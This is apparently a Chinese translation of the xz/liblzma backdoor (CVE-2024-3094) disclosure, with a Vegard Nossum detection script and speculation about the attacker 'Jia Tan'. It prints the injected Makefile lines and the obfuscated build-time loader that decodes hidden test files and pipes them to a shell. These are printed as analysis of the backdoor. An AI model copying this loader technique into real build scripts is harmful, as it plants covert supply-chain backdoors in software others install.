




# 【翻译】xz 供应链投毒你需要知道的一切 - 先知社区

翻译：  
[https://www.openwall.com/lists/oss-security/2024/03/29/4](https://www.openwall.com/lists/oss-security/2024/03/29/4)  
[https://lcamtuf.substack.com/p/technologist-vs-spy-the-xz-backdoor](https://lcamtuf.substack.com/p/technologist-vs-spy-the-xz-backdoor)  
[https://www.redhat.com/en/blog/urgent-security-alert-fedora-41-and-rawhide-users](https://www.redhat.com/en/blog/urgent-security-alert-fedora-41-and-rawhide-users)  
[https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094](https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094)  
[https://www.tenable.com/blog/frequently-asked-questions-cve-2024-3094-supply-chain-backdoor-in-xz-utils](https://www.tenable.com/blog/frequently-asked-questions-cve-2024-3094-supply-chain-backdoor-in-xz-utils)  
[https://www.lacework.com/blog/guidance-for-cve-2024-3094-finding-and-responding-to-the-latest-supply-chain-compromise-with-lacework/](https://www.lacework.com/blog/guidance-for-cve-2024-3094-finding-and-responding-to-the-latest-supply-chain-compromise-with-lacework/)  
[https://sysdig.com/blog/cve-2024-3094-detecting-the-sshd-backdoor-in-xz-utils/](https://sysdig.com/blog/cve-2024-3094-detecting-the-sshd-backdoor-in-xz-utils/)  
[https://news.ycombinator.com/item?id=39865810](https://news.ycombinator.com/item?id=39865810)  
[https://lcamtuf.substack.com/p/technologist-vs-spy-the-xz-backdoor](https://lcamtuf.substack.com/p/technologist-vs-spy-the-xz-backdoor)  
[https://bugs.launchpad.net/ubuntu/+source/xz-utils/+bug/2059417](https://bugs.launchpad.net/ubuntu/+source/xz-utils/+bug/2059417)  
[https://mp.weixin.qq.com/s/bZHavV6IF\_W4QALhcbpwtw](https://mp.weixin.qq.com/s/bZHavV6IF_W4QALhcbpwtw)

# 太长不看

-   xz/liblzma 压缩库中发现了一个后门，可用于攻击 SSH 服务器。
-   该后门存在于 XZ Utils 版本 5.6.0 和 5.6.1，影响了大量 Linux 发行版和嵌入式设备。
-   检测方法
-   对于攻击者的猜想

# xz 是什么

xz 是一种通用的数据压缩格式，几乎存在于每个 Linux 发行版中，包括社区项目和商业产品发行版。本质上，它有助于将大型文件格式压缩（然后解压缩）为更小、更易于管理的尺寸，以便通过文件传输进行共享。  
XZ 是类 Unix 操作系统上的一种无损数据压缩格式，通常与 gzibzip2 等其他常见数据压缩格式进行比较。 XZ Utils 是一个命令行工具，包含 XZ 文件和 liblzma 的压缩和解压缩功能，liblzma 是一种用于数据压缩的类似 zlib 的 API，并且还支持旧版 .lzma 格式。  
3 月 29 日，有开发人员在安全邮件列表上发帖称，他在调查 SSH 性能问题时发现了涉及 XZ 包中的供应链攻击，进一步溯源发现 SSH 使用的上游 liblzma 库被植入了后门代码，恶意代码可能允许攻击者通过后门版本的 SSH 非授权获取系统的访问权限。恶意代码修改了 liblzma 代码中的函数，该代码是 XZ Utils 软件包的一部分，链接到 XZ 库的任何软件都可以使用此修改后的代码，并允许拦截和修改与该库一起使用的数据。

# 微软软件工程师 Andres Freund 在 opwnwall 报告了 xz 存在后门

在过去几周观察到 Debian sid 安装上的 liblzma（xz 软件包的一部分）周围的一些奇怪症状（使用 ssh 登录占用大量 CPU、valgrind 错误）后，我找到了答案：  
上游 xz 存储库和 xz tarball 已被设置后门。  
起初我以为这是 debian 软件包的损坏，但事实证明这是上游的。

## 受损的 tarball 包

后门的一部分*仅位于分布式 tarball 中*。为了更容易参考，这里有一个 debian 导入 tarball 的链接，但它也存在于 5.6.0 和 5.6.1 的 tarball 中：  
[https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref\_type=heads#L63](https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63)  
该行*不在* build-to-host 的上游源中，也不是 git 中的 xz 使用的 build-to-host 。然而，它存在于上游发布的 tarball 中，除了 “源代码” 链接，我认为 github 直接从存储库内容生成：  
[https://github.com/tukaani-project/xz/releases/tag/v5.6.0](https://github.com/tukaani-project/xz/releases/tag/v5.6.0)  
[https://github.com/tukaani-project/xz/releases/tag/v5.6.1](https://github.com/tukaani-project/xz/releases/tag/v5.6.1)  
这会注入一个混淆的脚本，在配置结束时执行。该脚本相当混乱，数据来自存储库中的 “test”.xz 文件。  
执行此脚本，如果某些前提条件匹配，则修改 $builddir/src/liblzma/Makefile 以包含

```plain
am__test = bad-3-corrupt_lzma2.xz
...
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
...
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1
```

最终结果是...； sed rpath ../../../tests/files/bad-3-corrupt*lzma2.xz | tr“-*”“\_-”| xz -d | /bin/bash >/dev/null 2>&1; ...  
省略产生的 “| bash”

```plain
####Hello####
#��Z�.hj�
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
```

去混淆后，这会导致附加的 injected.txt。

## 受损的存储库

包含大量漏洞的文件以混淆的形式存在于上游提交的 tests/files/bad-3-corrupt\_lzma2.xztests/files/good-large\_compressed.lzma 中。它们最初添加在 [https://github.com/tukaani-project/xz/commit/cf44e4b7f5dfdbf8c78aef377c10f71e274f63c0](https://github.com/tukaani-project/xz/commit/cf44e4b7f5dfdbf8c78aef377c10f71e274f63c0)  
请注意，这些文件甚至没有用于 5.6.0 中的任何 “测试”。  
随后，由于堆栈布局与后门预期的差异，注入的代码（更多信息见下文）在某些配置中导致了 valgrind 错误和崩溃。这些问题已在 5.6.1 中尝试解决：

```plain
https://github.com/tukaani-project/xz/commit/e5faaebbcf02ea880cfc56edc702d4f7298788ad
https://github.com/tukaani-project/xz/commit/72d2933bfae514e0dbb123488e9f1eb7cf64175f
https://github.com/tukaani-project/xz/commit/82ecc538193b380a21622aea02b0ba078e7ade92
https://github.com/tukaani-project/xz/commit/e5faaebbcf02ea880cfc56edc702d4f7298788ad https://github.com/tukaani-project/xz/commit/72d2933bfae514e0dbb123488e9f1eb7cf64175f https://github.com/tukaani-project/xz/commit/ 82ecc538193b380a21622aea02b0ba078e7ade92
然后调整了利用代码：https://github.com/tukaani-project/xz/commit/6e636819e8f070330d835fce46289a3ff72a7b89
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240330194732-4b7d8a7e-ee8b-1.png)

鉴于活动持续了几周，提交者要么直接参与其中，要么他们的系统受到了一些相当严重的损害。不幸的是，考虑到他们在各种列表上就上述 “修复” 进行了沟通，后者看起来不太可能是解释。

Florian Weimer 首先单独提取了注入的代码，还附加了 liblzma\_la-crc64-fast.o，我只查看了整个二进制文件。谢谢！

## 受影响的系统

配置后首先调用附加的去混淆脚本，它决定是否修改构建过程以注入代码。  
这些条件包括仅针对 x86-64 linux：

```plain
if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
```

使用 gcc 和 gnu 链接器构建

```plain
if test "x$GCC" != 'xyes' > /dev/null 2>&1;then
    exit 0
    fi
    if test "x$CC" != 'xgcc' > /dev/null 2>&1;then
    exit 0
    fi
    LDv=$LD" -v"
    if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1;then
    exit 0
```

作为 debian 或 RPM 包构建的一部分运行：

```plain
if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64";then
```

特别是后者可能旨在让调查人员更难重现该问题。  
由于注入代码的工作原理（见下文），后门很可能只能在基于 glibc 的系统上工作。  
幸运的是，xz 5.6.0 和 5.6.1 尚未被 Linux 发行版广泛集成，尽管有些已经集成，但大多是预发行版本。

## 观察对 openssh 服务器的影响

安装后门 liblzma 后，通过 ssh 登录会变得慢很多。  
openssh 不直接使用 liblzma。然而，debian 和其他几个发行版修补了 openssh 以支持 systemd 通知，并且 libsystemd 确实依赖于 lzma。  
最初在 systemd 之外启动 sshd 并没有显示出速度减慢的情况，尽管后门被短暂调用。这似乎是一些增加分析难度的对策的一部分。

观察到的漏洞利用要求：

-   a) 未设置 TERM 环境变量
-   b) argv \[0\] 需要为 /usr/sbin/sshd
-   c) 未设置 LD\_DEBUG、LD\_PROFILE
-   d) 需要设置 LANG
-   e) 一些调试环境，与 rr 类似，似乎已被检测到。在某些情况下似乎可以检测到普通 gdb，但在其他情况下则无法检测到  
    要在 systemd 之外重现，可以在一个清晰的环境中启动服务器，仅设置所需的变量：
    
    ```plain
    env -i LANG=en_US.UTF-8 /usr/sbin/sshd -D
    ```
    

## 分析注入的代码

我 “不是” 安全研究员，也不是逆向工程师。有很多东西我没有分析，我观察到的大部分内容纯粹是来自观察，而不是详尽地分析后门代码。  
为了进行分析，我主要使用 “perf record -e intel\_pt //ub” 来观察后门活动和非活动之间的执行差异。然后也是 gdb，在分歧之前设置断点。  
后门最初通过用不同的代码替换 ifunc 解析器 crc32\_resolve ()、crc64\_resolve () 来拦截执行，这些代码调用 \_get\_cpuid ()，注入到代码中（以前只是静态内联函数）。在 xz 5.6.1 中，后门被进一步混淆，删除了符号名称。  
这些函数在启动期间得到解析，因为 sshd 是使用 -Wl,-z,now 构建的，导致所有符号都被提前解析。如果以 LD\_BIND\_NOT=1 启动，后门似乎不起作用。  
下面的 crc32\_resolve () \_get\_cpuid () 没有做太多事情，它只是看到 “completed” 变量为 0 并递增它，返回正常的 cpuid 结果（通过新的 \_cpuid ()）。在 crc64\_resolve () 期间它会变得更有趣。  
在第二次调用 crc64\_resolve () 中似乎找到了各种信息，例如来自动态链接器的数据、程序参数和环境。然后它执行各种环境检查，包括上述检查。还有其他检查我还没有完全追踪到。  
如果上述决定继续，则代码似乎正在解析内存中的符号表。这是让我调查这个问题的相当缓慢的一步。  
值得注意的是，liblzma 的符号在许多其他库之前得到解析，包括主 sshd 二进制文件中的符号。这很重要，因为符号已解析，GOT 通过 -Wl、-z、relro 重新映射为只读。  
为了能够解析尚未加载的库中的符号，后门在动态链接器中安装了一个审核钩子，可以使用 gdb 使用 watch \_rtld\_global\_ro.\_dl\_naudit 进行观察。看起来审核钩子仅针对主二进制文件安装。  
对于主二进制文件中的许多符号，从 \_dl\_audit\_symbind 调用该钩子。它似乎等待 “RSA\_public\_decrypt@....plt” 被解析。当调用该符号时，后门会更改 RSA\_public\_decrypt@....plt 的值以指向其自己的代码。它不是通过审计挂钩机制来执行此操作，而是在其外部执行此操作。  
由于我还不明白的原因，它确实将 sym.st\_value *和* 从审计挂钩的返回值更改为不同的值，这导致 \_dl\_audit\_symbind () 什么也不做 - 那么为什么要改变任何东西呢？  
之后再次卸载审核挂钩。  
在此阶段可以更改 got.plt 内容，因为它尚未（也不能）重新映射为只读。  
我怀疑现阶段可能会进行进一步的改变。

## 对 sshd 的影响

上一节解释了 RSA\_public\_decrypt@...plt 被重定向以指向后门代码。我分析的跟踪确实表明在 pubkey 登录期间调用了漏洞利用代码：  
sshd 1736357 \[010\] 714318.734008: 1 branches:uH: 5555555ded8c ssh\_rsa\_verify+0x49c (/usr/sbin/sshd) => 5555555612d0 RSA\_public\_decrypt@...+0x0 (/usr/sbin/sshd)  
然后后门回调 libcrypto，大概是为了执行正常的身份验证  
sshd 1736357 \[010\] 714318.734009: 1 branches:uH: 7ffff7c137cd \[unknown\] (/usr/lib/x86\_64-linux-gnu/liblzma.so.5.6.0) => 7ffff792a2b0 RSA\_get0\_key+0x0 (/usr/lib/x86\_64-linux-gnu/libcrypto.so.3)  
我还没有准确分析注入代码中检查的内容，以允许未经授权的访问。由于它是在预身份验证上下文中运行的，因此它似乎可能允许某种形式的访问或其他形式的远程代码执行。  
我会尽快升级任何可能存在漏洞的系统。

## bug 报告

鉴于明显的上游参与，我还没有报告上游错误。由于我最初认为这是 Debian 特有的问题，因此我向 security@...ian.org 发送了一份更初步的报告。随后我向 distros@ 报告了该问题。 CISA 已通过分发通知。  
Red Hat 将此问题指定为 CVE-2024-3094。

## 检测安装是否存在漏洞

Vegard Nossum 编写了一个脚本来检测系统上的 ssh 二进制文件是否可能存在漏洞，附在此处。谢谢！

```plain
#! /bin/bash

set -eu

# find path to liblzma used by sshd
path="$(ldd $(which sshd) | grep liblzma | grep -o '/[^ ]*')"

# does it even exist?
if [ "$path" == "" ]
then
    echo probably not vulnerable
    exit
fi

# check for function signature
if hexdump -ve '1/1 "%.2x"' "$path" | grep -q f30f1efa554889f54c89ce5389fb81e7000000804883ec28488954241848894c2410
then
    echo probably vulnerable
else
    echo probably not vulnerable
fi
```

快速粗略的检测通过 xz -V 查看版本是否为 5.6.0 和 5.6.1

# 攻击者猜想

攻击者 github 账号，现在被 github 封禁了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240330200923-58ea50b8-ee8e-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240330204540-6a03bb6e-ee93-1.png)

-   攻击者潜伏 2 年，处心积虑要搞 apt
-   攻击者被策反，因生活所迫

不久前，一个不明身份的人注意到了 liblzma（也称为 xz）—— 一个相对鲜为人知的开源压缩库 —— 是 OpenSSH 的一个依赖项，而 OpenSSH 是一个用于管理全球数百万服务器的安全关键远程管理工具。这种依赖关系并非由于 OpenSSH 开发者的有意设计决策而存在，而是由于一些 Linux 发行版为了将该工具与操作系统的新潮编排服务 systemd 集成而添加的一种临时解决方案。  
凭借对 xz 的这些了解，上述不明身份者可能发明了 “jia tan” 这个角色 —— 一位没有先前在线足迹的开发人员，在 2021 年 10 月突然出现并开始为该库做出有益的贡献。在此之前，xz 只有一个维护者 ——Lasse Collin—— 他正在处理健康问题并且落后于进度。在 “jia tan” 到来后不久，几个明显的傀儡账户出现了，并开始向 Lasse 施压要求交出控制权；看起来他在 2023 年某个时候屈服了。  
从那时起，“jia tan” 勤奋地继续维护工作 —— 最终在 2024 年 2 月无缝地引入了一个巧妙隐藏在构建脚本之一中的复杂后门。有效载荷的完整分析仍在进行中，但似乎它针对的是 OpenSSH 的预认证加密功能；可以安全地假设它增加了 “主键” 功能以让攻击者随意访问所有受影响的服务器。  
在获得后门之后，“jia tan” 以及一批新的傀儡账户开始联系 Linux 发行版维护者以将带有后门的库打包并分发给最终用户。这个计划一直运作到安德烈斯・弗洛因德（Andres Freund）—— 微软雇佣的一位 PostgreSQL 开发者 —— 据报道决定调查由后门代码中的一个小错误引起的意外 SSH 延迟问题时为止。  
如果这个时间线是正确的，那么这不是业余爱好者的作案手法。在当今世界，如果你拥有技术实力和完成此事的耐心，你可以轻松地找到一份能让你终身无忧的工作，而不必冒任何监禁的风险。的确，我们也有一些具有反社会倾向和冲动控制不佳的杰出人才 —— 但几乎可以说，“黑帽” 组织寻求的是即时满足感并不会提前数年计划抢劫。换句话说，所有迹象都表明这是一次专业的、有偿行动 —— 如果是由外国政府支付的话也不会令人感到意外。  
由于归因尚不确定，人们仍然倾向于归咎于人。一些评论家指责大型科技公司与开源社区之间所谓的剥削关系；他们声称缺乏足够的补偿是所有不适的根源。我不买账这一点。与商业供应商的关系并不总是健康的，但许多主要的开源软件项目得到了相当程度的支持。无数知名的开源软件开发者都在大型科技公司的工资单上；相当多的项目获得了丰厚的资助。  
许多小型的基础开源软件库的实际问题在于真的没有太多事情可做。它们是在几十年前由一个人编写的 —— 除了修复错误之外，它们实际上不应该有太多的改变。你不会每年对 zlib 或 giflib 进行重大改造；即使你挥舞着一些现金，围绕无意义的事情来建立一个可持续的社区也是很困难的。过了一段时间，维护者就不再那么投入了；他们渴望将接力棒传给任何有激情和一定技能的人。  
哎呀，方程式的另一边也发生了同样的情况：即使有大型科技公司的人员和资金支持，如果你拥有一个几乎不需要关注就能运行的图书馆，那么对该代码的 “所有权” 也变得相当理论化。在对每个人都理所当然地接受的一些无聊、老套的依赖项非常熟悉的基础上建立一个有意义的职业生涯是很难的。  
更根本的是，xz 后门不是一个技术问题，它可能无法仅靠技术解决。这最终是一个反情报挑战 —— 完全属于政府和少数具有生态系统范围监控能力的商业实体的能力范畴。这尤其包括谷歌和微软。  
实际上，这里有一个有趣的想法：也许他们已经知道一段时间了。我们能否区分出一个精心策划的披露（据推测是为了隐藏 “方法和来源”）和一个偶然发现之间的区别？

# 关于 xz 后门的有趣注释：

如果你绘制了 Jai Tan 提交历史的时间段，那么与其他活动相比，那一组有问题的提交出现在一个不寻常的时间。  
如果开发人员被黑了，这可能是威胁行为者在自己的时区做出贡献的迹象。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240330202751-ed43404c-ee90-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240330203014-4271b0a8-ee91-1.png)

'xz' 后门提交历史和活动记录显示，作者大多在办公时间进行操作。从周一到周五，每隔一个周六，我想其中一些可能与公共假期有关，因为这显然不是业余爱好者所为。某些公共假期和我国假期吻合，阴谋论者怀疑和我国有关。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240330203542-059df690-ee92-1.png)

hackernews 用户：  
很烦人 - 后门的作者在几周内与我保持联系，试图让 xz 5.6.x 被加入到 Fedora 40 和 41，因为其 “出色的新功能”。我们甚至与他合作解决了 valgrind 的问题（后来发现这是由他添加的后门引起的）。在后门被爆出之后，我们不得不在昨晚紧急解决问题。  
他已经参与 xz 项目两年了，增加了各种二进制测试文件，说实话，在这种复杂程度下，如果没有其他证据证明否则，我会对更早版本的 xz 也持怀疑态度。

东窗事发之前 jia tan，昨天还在催促 Ubuntu 邮件组合并 debian 的修改：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240330210739-7ca3435e-ee96-1.png)

jia tan 谈价？秀肌肉？？？  
参考：

```plain
https://www.redhat.com/en/blog/urgent-security-alert-fedora-41-and-rawhide-users
https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094
https://www.tenable.com/blog/frequently-asked-questions-cve-2024-3094-supply-chain-backdoor-in-xz-utils
https://www.lacework.com/blog/guidance-for-cve-2024-3094-finding-and-responding-to-the-latest-supply-chain-compromise-with-lacework/
https://sysdig.com/blog/cve-2024-3094-detecting-the-sshd-backdoor-in-xz-utils/
https://news.ycombinator.com/item?id=39865810
https://lcamtuf.substack.com/p/technologist-vs-spy-the-xz-backdoor
https://bugs.launchpad.net/ubuntu/+source/xz-utils/+bug/2059417
https://mp.weixin.qq.com/s/bZHavV6IF_W4QALhcbpwtw
```
